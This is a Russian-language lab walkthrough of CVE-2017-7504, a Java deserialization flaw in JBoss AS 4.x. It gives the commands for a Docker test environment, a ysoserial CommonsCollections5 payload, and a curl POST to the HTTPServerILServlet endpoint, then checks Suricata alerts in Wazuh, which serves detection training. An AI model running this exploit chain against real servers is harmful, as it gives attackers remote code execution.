 # CVE-2017-7504

CVE-2017-7504 является уязвимостью десериализации, уязвимыми являются JBoss AS 4.x и предыдущие версии. Принцип уязвимости. В JBoss AS 4.x и более ранних версиях файл HTTPServerILServlet.java уровня вызова JServer через HTTP в процессе реализации JBossMQ имеет уязвимость десериализации.

Злоумышленник может использовать эту уязвимость для выполнения произвольного кода со специальными сериализованными данными.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Чтобы сгенерировать полезную нагрузку, нужно скачать [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) и выполнить данную команду

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

Если при генерации пэйлоада возникает подобная ошибка, нужно откатить версию Java

> Для генерации подойдет 11 версия&#x20;
>
> Чтобы откатить java к 11 версии, нужно найти пакет с помощью команды sudo apt search jdk и скачать его, а затем выполнить команду sudo update-alternatives --config java и sudo update-alternatives --config javac и выбрать 11 версию
>
>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

После этого отправляем содержимое файла как тело POST-запроса

```
curl http://ваш-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

Результатом эксплуатации является создание файла /tmp/success

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
